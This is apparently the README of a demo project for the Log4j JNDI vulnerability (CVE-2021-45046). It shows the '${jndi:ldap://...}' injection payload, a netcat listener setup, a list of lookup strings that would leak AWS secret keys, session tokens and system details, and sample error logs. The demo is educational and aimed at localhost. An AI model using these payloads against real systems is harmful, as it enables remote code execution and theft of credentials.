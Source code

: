 # log4j-vuln-demo
Log4j vulnerability demo
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046

![image](src/docs/log4j-jndi.png)

## CVE: CVE-2021-4428 | CVE-2021-45046
 
- [x] demo apache log4j2 vuln execute RCE via logs
 - [x] ```${jndi:ldap://127.0.0.1:3000}```
 - [x] postman collection for testing
 
## Local Startup

- [x] Open 2 terminal shell

- [x] Shell 1: Vulnerable Application [Green]
```
  ./gradlew bootRun
```
- [x] Shell 2: listen on mac port 3000 [RED]
```
   nc -l 3000
```
- [x] After running postman script attack, you will see something on RED terminal shell
```
0
 `?
```
- [x] This confirms, now attacker has access to app and can inject/run RCE to get any data
- [x] These are common vector attack ,which can be easily retrieved and send to servers.
```
${env:PATH}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_ACCESS_KEY_ID}
${sys:user.name}
${sys:java.version}
${sys:os.version}
${env:USER}
${java:os}
${date:MM-dd-yyyy}
${date:dd:MM:yyyy}
```

## Run postman collection local
- [x] log4j-vuln-jndi -> it will fire jndi lookup, 
    ``` try to fetch data from internal resource input```



## vuln example logs
```
2021-12-16 12:03:09,184 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3000]. javax.naming.CommunicationException: 127.0.0.1:3000 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:245)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2847)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:348)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
```
